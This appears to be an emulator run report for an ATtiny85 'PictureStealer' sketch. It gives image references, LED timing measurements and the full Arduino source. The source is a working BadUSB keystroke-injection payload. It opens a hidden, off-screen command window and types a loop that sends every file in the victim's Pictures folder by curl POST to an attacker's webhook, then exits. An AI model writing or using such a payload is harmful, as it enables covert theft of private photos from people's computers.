
The sketch below on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Parts: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 115.3 s:

Timing chart, 0 to 116.8 s (numbered marks = the images above):


The sketch:

PictureStealer_secure.ino
```cpp
#include "DigiKeyboard.h"
#define KEY_ENTER 0x28 //Return/Enter Key
#define KEY_DOWN 0x51 // Keyboard Down Arrow

void setup() {
  pinMode(1, OUTPUT); //LED on Model A
}

void loop() {

  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);

  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd /k mode con: cols=15 lines=1"); //smallest cmd window possible
  DigiKeyboard.delay(500);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_ALT_LEFT); //Menu
  DigiKeyboard.sendKeyStroke(KEY_M); //goto Move
  for(int i =0; i < 100; i++)
    {
      DigiKeyboard.sendKeyStroke(KEY_DOWN);
    }
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //Detach from scrolling
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cd %USERPROFILE%\\Pictures"); //Change to Pictures directory
  DigiKeyboard.delay(500);
  DigiKeyboard.println("FOR %F IN (%USERPROFILE%\\Pictures\\*) DO curl -X POST -F \"file=@%F\"YOUR WEBHOOK URL GOES HERE");

  DigiKeyboard.delay(5000);
  DigiKeyboard.println("exit");
  DigiKeyboard.delay(100);

  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);

}
```

Measured:
- by itself, PB1 (LED_on_Model_A): LOW → HIGH at 10.1 s, → LOW 90.0 s later, → HIGH 15.1 s later
